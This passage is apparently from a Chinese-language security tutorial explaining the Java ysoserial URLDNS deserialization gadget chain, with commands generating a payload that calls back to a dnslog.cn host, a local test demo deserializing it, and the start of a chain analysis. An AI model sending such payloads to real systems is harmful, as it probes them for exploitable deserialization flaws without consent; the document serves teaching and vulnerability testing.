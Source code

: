 URLDNS链的利用效果是发起一次远程请求，而不能去执行命令。基本上是用来测试是否存在反序列化漏洞的一个链，比如在一些无法回显执行命令的时候，可以通过URLDNS链去发送一个dns解析请求，如果dnslog收到了请求，就证明了存在漏洞。

下面命令行使用下URLDNS链看看效果

将生成的序列化payload保存在一个txt里，后面用一个测试demo读取文件数据再给他反序列化一下，观察dnslog请求就可以了。

```
java -jar ysoserial.jar URLDNS "http://ba0i6v.dnslog.cn" 
java -jar ysoserial.jar URLDNS "http://ba0i6v.dnslog.cn" &gt; URLDNS.txt
```

[![](https://p0.ssl.qhimg.com/t01712d4d8345c713d0.png)](https://p0.ssl.qhimg.com/t01712d4d8345c713d0.png)

反序列化测试demo

```
import java.io.*;

public class URLDNSTestDemo `{`
    public static void main(String[] args) throws Exception `{`

        FileInputStream fis = new FileInputStream("/Users/b/Desktop/Tools/URLDNS.txt");
        ObjectInputStream bit = new ObjectInputStream(fis);
        bit.readObject();
    `}`
`}`
```

运行demo测试是否可以成功将序列化的payload执行并在dnslog留下记录

[![](https://p5.ssl.qhimg.com/t017b411fa1209b2374.png)](https://p5.ssl.qhimg.com/t017b411fa1209b2374.png)

[![](https://p2.ssl.qhimg.com/t01efb73e82c2623bac.png)](https://p2.ssl.qhimg.com/t01efb73e82c2623bac.png)

dnslog平台已经接收到了请求，说明我们利用测试成功了。

下面我们分析一下URLDNS链执行流程是怎样的。



## 0x04 URLDNS链分析

URLDNS这条利用链并不依赖于第三方的类，而是JDK中内置的一些类和方法。所以并不需要一些Java的第三方类库就可以达到目的。

打开URLDNS源码，URLDNS.java

在最上面的注释中，作者已经给出了URLDNS的Gadget chain

```
*   Gadget Chain:
 *     HashMap.readObject()
 *       HashMap.putVal()
 *         HashMap.hash()
 *           URL.hashCode()
```
